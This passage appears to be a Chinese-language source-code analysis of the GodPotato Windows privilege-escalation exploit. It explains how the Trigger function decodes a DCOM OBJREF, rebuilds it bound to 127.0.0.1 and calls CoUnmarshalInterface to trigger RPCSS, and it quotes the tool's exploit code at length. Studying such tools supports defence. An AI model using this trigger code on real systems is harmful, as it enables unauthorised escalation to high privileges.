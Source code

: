 

`GodPotatoUnmarshalTrigger`类中的`Trigger`函数主要负责触发RPCSS

首先使用`GetDisplayName`函数获取DCOM对象的显示名称（这是一个包含DCOM对象信息的Base64编码字符串），随后将这个字符串解码并转换成字节数组

```cpp
string ppszDisplayName;
moniker.GetDisplayName(bindCtx, null, out ppszDisplayName);
ppszDisplayName = ppszDisplayName.Replace("objref:", "").Replace(":", "");
byte[] objrefBytes = Convert.FromBase64String(ppszDisplayName);
```



使用解码后的字节数组创建一个"临时"DCOM对象`tmpObjRef` ，目的是获取此对象的一些关键信息（如GUID、IPID、OXID等）

```cpp
ObjRef tmpObjRef = new ObjRef(objrefBytes);

// 打印DCOM对象的信息
godPotatoContext.ConsoleWriter.WriteLine($"[*] DCOM obj GUID: {tmpObjRef.Guid}");
godPotatoContext.ConsoleWriter.WriteLine($"[*] DCOM obj IPID: {tmpObjRef.StandardObjRef.IPID}");
godPotatoContext.ConsoleWriter.WriteLine("[*] DCOM obj OXID: 0x{0:x}", tmpObjRef.StandardObjRef.OXID);
godPotatoContext.ConsoleWriter.WriteLine("[*] DCOM obj OID: 0x{0:x}", tmpObjRef.StandardObjRef.OID);
godPotatoContext.ConsoleWriter.WriteLine("[*] DCOM obj Flags: 0x{0:x}", tmpObjRef.StandardObjRef.Flags);
godPotatoContext.ConsoleWriter.WriteLine("[*] DCOM obj PublicRefs: 0x{0:x}", tmpObjRef.StandardObjRef.PublicRefs);
```



利用之前获取到的DOCM对象的信息(OXID、OID、IPID)来创建第二个DCOM对象，将第二个对象的接口指定为`IID_IUnkown`（这是所有COM对象的基础接口）以及指定网络为`127.0.0.1`，这样表示访问本地机器上的DCOM对象

随后调用`UnmarshalDCOM.UnmarshalObject`函数解封此DCOM对象，以此来触发RPCSS

```cpp
private readonly static Guid IID_IUnknown = new Guid("{00000000-0000-0000-C000-000000000046}");
private readonly static string binding = "127.0.0.1";
private readonly static TowerProtocol towerProtocol = TowerProtocol.EPM_PROTOCOL_TCP;

ObjRef objRef = new ObjRef(IID_IUnknown,new ObjRef.Standard(0, 1, tmpObjRef.StandardObjRef.OXID, tmpObjRef.StandardObjRef.OID, tmpObjRef.StandardObjRef.IPID,
new ObjRef.DualStringArray(new ObjRef.StringBinding(towerProtocol, binding), new ObjRef.SecurityBinding(0xa, 0xffff, null))));

byte[] data = objRef.GetBytes();

godPotatoContext.ConsoleWriter.WriteLine($"[*] Marshal Object bytes len: {data.Length}");
            
IntPtr ppv;

godPotatoContext.ConsoleWriter.WriteLine($"[*] UnMarshal Object");
return UnmarshalDCOM.UnmarshalObject(data,out ppv);
```



`UnmarshalObject`函数调用的是`CoUnmarshalInterface`函数，此函数用于从序列化数据重构DCOM对象的接口，在处理DCOM对象的激活和解封等操作时会依赖于RPCSS服务来完成这些底层操作。

```cpp
public static int UnmarshalObject(Stream stm, Guid iid, out IntPtr ppv)
{
    return NativeMethods.CoUnmarshalInterface(new IStreamImpl(stm), ref iid,out ppv);
}
```
